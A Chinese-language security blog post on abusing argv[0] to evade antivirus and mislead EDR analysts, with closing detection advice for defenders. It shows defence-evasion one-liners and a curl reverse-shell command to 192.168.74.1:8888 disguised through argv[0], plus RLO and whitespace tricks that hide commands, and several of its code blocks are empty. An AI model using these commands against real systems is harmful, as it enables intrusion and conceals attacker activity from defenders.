





背景
在《Why bother with argv[0]?》一文中，作者深入浅出地剖析了argv[0]在安全领域的潜在风险，学到了很多东西，与大家分享一下
概念
程序命令行的第一个参数，通常反映程序的名称/路径，通常称为argv[0]，在大多数情况下可以设置为任意值而不会影响进程的流程。
创建两个.c文件，分别为echo_test.c和echo2_test.c
1 |
|
1 |
|
echo2_test.c传入的argv[0]为echo22222，但二者运行后都产生了相同的效果，可见一般情况下修改argv[0]的值不会影响到整个程序的运行。

execl是 Unix 和类 Unix 操作系统中用于执行新程序的函数之一，属于exec函数族。execl代表 “load”（加载），它用于替换当前进程映像，执行一个新的程序。函数原型如下：
同时，在其他的编程语言中同样支持用户自定义argv[0]
1 | python3 -c "import os; os.execvp('/path/to/binary', ['ARGV0', '--other', '--args', '--here'])" |
但从安全的角度来讲，利用argv[0]可造成一定程度的安全风险。
杀软对抗
以Windows Defender 为例，如果直接通过certutil -urlcache下载文件则会被阻止，但如果通过python将argv[0]置空，则可以成功执行。
1 | 下载echo1失败 |

另一种绕过的杀软的方法是向argv[0]中传入其他的正常内容来迷惑杀软，比如使用attrib.exe来隐藏文件时，可能会触发杀软，但在默认情况下，desktop.ini 文件是隐藏的，杀软可能会将这一情况进行排除，那么此时如果传入的argv=["desktop.ini","+H","backdoor.exe"]可以在一定程度上进行绕过。
迷惑欺骗
某些情况下，EDR设备会获取某个进程的执行命令供安全人员用于分析网络安全事件，此时可以利用argv[0]对进程的执行命令进行伪装。
如下图所示，我们通过curl命令来反弹shell，同时令argv[0]=curl localhost | grep
1 | bash -c "exec -a'curl localhost | grep' curl -Ns telnet://192.168.74.1:8888" |
此时通过ps命令显示的执行命令为：
1 | curl localhost | grep -Ns telnet://192.168.74.1:8888 |
显然对安全人员的分析造成了一定的欺骗，同时argv[0]的内容可以修改得更加复杂来迷惑安全人员。

在Windows平台还可以使用RLO（Right-to-Left Override）来实施干扰。
通过\u202E使后面的字符全部逆序显示来干扰安全人员的分析。
1 | python -c "import os; os.execvp('curl',['curl \u202E','http://www.baidu.com'])" |

同时，也可以添加足够多的空白字符来隐藏执行的命令，在某些情况下，EDR为了节省开销只会截取特定长度的命令进行输出显示，从而让安全人员忽视这些危险操作。
1 | python -c "import os; os.execvp('curl',[' '*1000,'http://www.baidu.com'])" |

预防和检测
对于网络安全人员来讲，我们应该要了解argv[0]如何工作以及它所带来的网络安全威胁，同时采取一定的手段进行规避检测，对于过长的或者包含有RLO字符的命令应标记为可疑；又或者在报告命令行参数时直接忽视掉argv[0]，以减小其带来的影响。
参考: